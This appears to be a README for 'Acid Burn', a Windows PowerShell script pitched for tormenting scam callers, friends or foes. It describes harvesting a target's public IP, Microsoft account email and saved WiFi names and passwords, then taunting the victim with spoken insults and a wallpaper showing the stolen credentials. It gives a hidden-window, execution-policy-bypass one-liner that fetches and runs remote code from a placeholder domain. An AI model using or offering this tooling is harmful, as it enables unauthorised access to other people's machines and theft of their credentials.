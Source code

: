 # Acid Burn

A script I put together to torment Call Center Scammers but can be used on your friends as well...or foes.

## Description

This program enumerates a target PC to include Operating System, RAM Capacity, Public IP, and Email associated with the Microsoft account.
The SSID and WiFi password of any current or previously connected to networks.
It determines the last day they changed their password and how many days ago.
Once the information is gathered, the script will pause until a mouse movement is detected.
Then, the script uses Sapi speak to roast their set up and lack of security.
If wifi networks and passwords are detected, the wallpaper will be changed to an image displaying that information.
The generated image will be saved to the desktop and steganography is used to put a hidden message at the bottom of the binary output of the generated image.

## Getting Started

### Dependencies

* Windows 10,11

### Executing program

```
powershell -w h -NoP -NonI -Exec Bypass irm MYDOMAIN.HERE/zyg | iex
```

* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory
* Enumerate and get Full Name, Amount of RAM, Public IP, Wifi Password Length, Wifi Networks and Passwords, Day Password was last changed, Email
* Custom responses have been programmed to roast the target based on the information gathered during enumeration phase 
* Wifi Networks and passwords will be generated into an image that will be saved on the desktop
* Image opened in notepad will reveal a hidden message at the bottom of the binary output
* Script will freeze until a mouse movement is detected 
* Sapi Speak will be used to speak out loud the custom responses 
* Desktop wallpaper will be changed to the image of the targets Wifi Networks and Passwords
* Text file will be left on the target desktop with whatever message you choose

##
